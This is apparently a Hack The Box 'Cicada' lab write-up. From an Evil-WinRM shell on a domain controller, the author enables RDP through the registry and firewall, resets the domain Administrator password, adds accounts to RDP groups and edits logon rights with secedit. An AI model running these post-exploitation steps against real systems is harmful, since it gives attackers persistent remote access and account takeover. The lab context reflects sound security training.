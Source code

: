 

Enable RDP:
`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0`

Check:
```sh
*Evil-WinRM* PS C:\Users\Administrator\Documents> Get-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections"


fDenyTSConnections : 0
PSPath             : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Terminal Server
PSParentPath       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
PSChildName        : Terminal Server
PSDrive            : HKLM
PSProvider         : Microsoft.PowerShell.Core\Registry
```

Let rdp through firewall:
`Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

test with nmap
```sh
┌──(fixit42㉿kali)-[~/boxes/htb/cicada]
└─$ nmap -p 3389 -sC -sV -Pn 10.129.169.79                                                                            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-01 01:10 CEST
Nmap scan report for CICADA-DC.cicada.htb (10.129.169.79)
Host is up (0.025s latency).

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Not valid before: 2025-07-31T06:07:48
|_Not valid after:  2026-01-30T06:07:48
| rdp-ntlm-info: 
|   Target_Name: CICADA
|   NetBIOS_Domain_Name: CICADA
|   NetBIOS_Computer_Name: CICADA-DC
|   DNS_Domain_Name: cicada.htb
|   DNS_Computer_Name: CICADA-DC.cicada.htb
|   DNS_Tree_Name: cicada.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2025-08-01T06:10:55+00:00
|_ssl-date: 2025-08-01T06:11:01+00:00; +7h00m00s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.01 seconds
```

try to connect
```sh
┌──(fixit42㉿kali)-[~/boxes/htb/cicada]
└─$ xfreerdp3 /dynamic-resolution /scale-desktop:150 /scale:100 +clipboard /v:10.129.169.79 /u:'cicada\Administrator'      
[01:11:39:793] [1501144:0016e80c] [WARN][com.freerdp.client.x11] - [load_map_from_xkbfile]:     : keycode: 0x08 -> no RDP scancode found
[01:11:39:793] [1501144:0016e80c] [WARN][com.freerdp.client.x11] - [load_map_from_xkbfile]:     : keycode: 0x5D -> no RDP scancode found
[01:11:39:947] [1501144:0016e80c] [WARN][com.freerdp.crypto] - [verify_cb]: Certificate verification failure 'self-signed certificate (18)' at stack position 0
[01:11:39:947] [1501144:0016e80c] [WARN][com.freerdp.crypto] - [verify_cb]: CN = CICADA-DC.cicada.htb
Password:        
[01:11:51:598] [1501144:0016e80c] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Cannot find KDC for realm "CICADA" [-1765328230])
[01:11:51:622] [1501144:0016e80c] [ERROR][com.winpr.sspi.Kerberos] - [kerberos_AcquireCredentialsHandleA]: krb5glue_get_init_creds (Cannot find KDC for realm "CICADA" [-1765328230])
[01:11:51:676] [1501144:0016e80c] [ERROR][com.freerdp.core] - [nla_recv_pdu]: ERRCONNECT_LOGON_FAILURE [0x00020014]
[01:11:51:676] [1501144:0016e80c] [ERROR][com.freerdp.core.rdp] - [rdp_recv_callback_int][0x55f90fbc0b70]: CONNECTION_STATE_NLA - nla_recv_pdu() fail
[01:11:51:676] [1501144:0016e80c] [ERROR][com.freerdp.core.rdp] - [rdp_recv_callback_int][0x55f90fbc0b70]: CONNECTION_STATE_NLA status STATE_RUN_FAILED [-1]
[01:11:51:676] [1501144:0016e80c] [ERROR][com.freerdp.core.transport] - [transport_check_fds]: transport_check_fds: transport->ReceiveCallback() - STATE_RUN_FAILED [-1]
```
we need the password


`Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString "Password123!" -AsPlainText -Force) -Reset`

`Add-ADGroupMember -Identity "Remote Desktop Users" -Members "Administrator"`
or
`net group "Remote Desktop Users" Administrator /add /domain`

---

```sh
*Evil-WinRM* PS C:\Users\Administrator\Documents> secedit /configure /db secedit.sdb /cfg C:\rdp_policy.inf /overwrite /quiet
```


```sh
*Evil-WinRM* PS C:\Users\Administrator\Documents> secedit /export /cfg C:\rdp.inf

The task has completed successfully.
See log %windir%\security\logs\scesrv.log for detail info.
```



```sh
secedit /export /cfg C:\rdp.inf
```

```sh
whoami /user
```


Look for the line starting with:
`SeRemoteInteractiveLogonRight =`

Replace the whole line with:
`SeRemoteInteractiveLogonRight = *S-1-5-32-544,*S-1-5-21-917908876-1423158569-3159038727-500`


Dev support already has the permissions - so let's add ourselves - We don't have to do the line replace and 


```
secedit /configure /db C:\secedit.sdb /cfg C:\rdp.inf /overwrite /quiet

gpupdate /force
```


`net group "Dev Support" Administrator /add /domain`



